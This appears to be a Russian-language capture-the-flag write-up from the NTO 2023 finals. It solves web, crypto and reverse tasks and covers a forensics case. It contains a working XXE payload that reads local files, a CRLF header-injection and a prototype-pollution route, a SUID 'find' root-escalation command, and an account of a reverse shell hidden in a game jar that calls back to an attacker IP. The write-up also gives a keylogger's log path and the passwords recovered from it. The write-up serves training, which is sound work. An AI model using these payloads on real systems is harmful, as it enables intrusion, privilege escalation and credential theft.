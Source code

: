 # nto-final-2023-solves

## WEB 1

Пробуем различные атаки, используя форму рассчёта цены. Расшифровываем входящие и исходящие данные, используя клиентский js-скрипт, расположенный на сайте.
Замечаем, что в функцию encrypted можно передать xml помимо json. Значит, можно попытаться совершить xxe-атаку. Пробуем передать следущие данные (используя burpsuite), предварительно зашифровав их:

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><data><countries>&xxe;</countries><startdate>&xxe;</startdate><enddate>&xxe;</enddate><resttype>&xxe;</resttype></data>

Получаем ответ от сервера, расшифровываем:

    {"format":"xml","data":"<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<!DOCTYPE foo [\n<!ENTITY xxe SYSTEM \"file:///flag.txt\">\n]>\n<data>\n  <countries>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</countries>\n  <startdate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</startdate>\n  <enddate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</enddate>\n  <resttype>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</resttype>\n  <price>NaN</price>\n</data>\n"}

Видим, что флаг:

    nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}

## WEB 2

Исследуем скрипт приложений. Замечаем уязвимость в скрипте приложения, запущенного на порте 3002: куки небезопасно вставляются и передаются в приложение на порте 3001.
Переменную flag мы менять не можем, а вот переменную username вольно задаём при регистрации. Используя burpsuite, пробуем применять header injection в username.

Передаём следующий ник:

    test\r

На сервере возникает ошибка, и он выводит нам сообщение:

Bad Request Bare CR or LF found in header line "Cookie: username=test ;flag=NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}" (generated by waitress)

Как видим, флаг:

    nto{request_smuggling_917a34072663f9c8beea3b45e8f129c5}

## WEB 3

Анализируем исходный код приложения. Видим, что можно применить prtotype pollution, напрямую через интерфейс сайта. Видим, что в коде самого приложения уязвимостей нету. Изучаем на github исходные ходы библиотек, использующихся в приложении.
В исходном коде библиотеки passport находим подходящее свойство для prototype pollution - userProperty.
Замечаем, что при присваивании свойству userProrerty значения isLocalRequest, при аутенфикации в isLocalRequest запишется информация о пользователе. Последовательно переходим по следующим каталогам сайта:

    /pollute/userProperty/isLocalRequest
    /auth?username=test
    /admin/flag

Получаем флаг:

    nto{pr0t0typ3_pollut10n_g4dged5_f56acc00f5eb803de88496b}

## CRYPTO 1

После нескольких запусков исходного кода замечаем, что выведенные числа не меняются в зависимости от длины введенной строки. Немного редактируем файл, дописывая полный перебор в его конец:

    orig = [277, 92, 775, ... 926, 1281, 631]
    res = ''

    for i in range(len(orig)):
       for j in 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLXCVBNM{}_1234567890':
         dihedral = DihedralCrypto(1337)
         answer = dihedral.hash((res + j).encode('utf-8'))
         if answer[i] == orig[i]:
           res += j
           break
    print(res)

Запустив его и подождав пару минут, получаем флаг:

    nto{5tr4ng3_gr0up_5tr4ng3_l0g_and_depressed_kid_zxc_ghoul}

## CRYPTO 2

Замечаем, что если очередной бит флага равен 1, то результат, возращаемый с сервера, может быть абсолютно любым. Иначе, результат не может быть меньше чем n // 2. Исольхуем этот факт при написании следующего кода:

    from requests import get
    from Crypto.Util.number import long_to_bytes

    n = 7260248502...14489681551

    def f():
      cur_i, ans = 0, ''
      res = None
      while True:
        for _ in range(10):
          res = get(f'http://10.10.25.10:1177/guess_bit?bit={cur_i}').json()
          if 'error' in res:
            return ans
          if res['guess'] < n // 2:
            ans += '1'
            cur_i += 1
            break
        else:
          cur_i += 1
          ans += '0'

    print(long_to_bytes(int(f(), 2)).decode('utf-8'))

Запускаем, получаем флаг:

    nto{0h_n0_t1m1ng}

## REVERSE 2

Открыв данный исполняемый файл в IDA, сразу идем в функцию, где происходит проверка флага (поиск по подстроке nto). В этой функции видно, что данная строка разбивается на 7 int32 чисел и переводится в little-endian формат. 
Далее мы находим вызовы в инициализацию эмулятора unicorn, а также 224-байтный шеллкод на архитектуре MIPS x32. При дизассемблинге данного шелла, мы находим основную проверку на корректность флага. Алгоритм шифрования выглядит так:

    flag[0] &= 0x2c2c2c2c;
    compare(flag[0], const0);
    flag[0] ^= flag[1];
    compare(flag[0], const1);
    flag[0] ^= flag[2];
    compare(flag[0], const1);
    ....
    flag[0] &= flag[7];
    compare(flag[0], const7);

В данном случае можно легко восстановить операции xor, т.к. они однозначно обратимы. Получаем флаг (неизвестные части - знак вопроса)

    nto{Wh0_54id????s_1S_M3d????

В случае с and (4 и 7 части флага), можно догадаться что это слова This и Medium. Получаем флаг:

    nto{Wh0_54id_Th1s_1S_M3dium}
   
## PART 2 - VM 1(LINUX)

Злоумышленник попал на машину используя reverse-shell вшитый в файл игры minecraft.jar. Он подключался на 192.168.126.129:4444 и выполнял удаленные команды. После заражения, используя linPEAS, злоумышленник использовал неправильно настроенный find с suid битом. Используя команду 

    find . -exec /bin/sh -p ; -quit 
   
он поднял права до root. После заражения, злоумышленник загрузил кейлоггер logkeys. В истории команд можно найти путь до исполняемого файла кейлоггера: /home/sergey/Downloads/build/src/logkeys. Загрузив файл в любой дизассемблер, можно быстро найти как кейлоггер берет путь до файла лога. В кейлоггере используется простой XOR по ключу. Расшифровав путь, получаем /var/log/logkeys.log. Там и хранятся логи. Это также видно из истории команд bash_history. В файле /var/log/logkeys.log злоумышленник нашел логи нажатий клавиш, откуда нашел пароль от keepass2: 

    1_D0N7_N0W_WHY_N07_M4Y83_345Y

Запустив keepass2 и введя этот пароль, можно найти пароль от "windows rdp": 

    SecretP@ss0rdMayby_0rNot&
